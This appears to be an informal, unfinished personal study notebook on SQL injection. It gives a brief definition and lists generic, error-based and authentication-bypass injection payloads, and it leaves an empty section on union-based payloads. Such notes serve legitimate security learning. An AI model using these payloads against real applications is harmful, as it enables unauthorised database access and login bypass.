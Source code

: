 # Klein
Calvin Security Learning stuff lol


NOTEBOOK sorta, slightly unorganized, catagorized but could be neater.

"-" is a makeshift bulletpoint, not apart of whats typed after. eg 

-  'lol = "'lol" 
  
and not =/=

"-  'lol"

#SQL Injection

SQLi is a security weakness which allows attackers to control and applications database and allowing them to,
for instance modify data or change the database applications behaviour by tricking the database into allowing 
sending SQL commands.

Some I like to give a crack are;

Generic SQL Injection Payloads

- ' or '
- OR "" = "
- '=0--+
- 'LIKE'
- - ' AND id IS NULL; --
- '''''''''''''UNION SELECT '2


Generic Error Based Payloads

- OR 1=1
- OR 1=1-- 
- OR 3409=3409 AND ('pytW' LIKE 'pytW
- %' AND 8310=8310 AND '%'='
- AND 1=1 AND '%'='


Authentication Based Payloads

- admin') or ('1'='1'--
- or true--
- admin') or ('1'='1'#
- ' or ''&'
- admin') or ('1'='1'/
 
 
Ordre and Union based palloads

  Open Linux VM and check which ones had the most promising outcomes based on previous use cases Novemeber calvin
  
-
-
-
-
-






































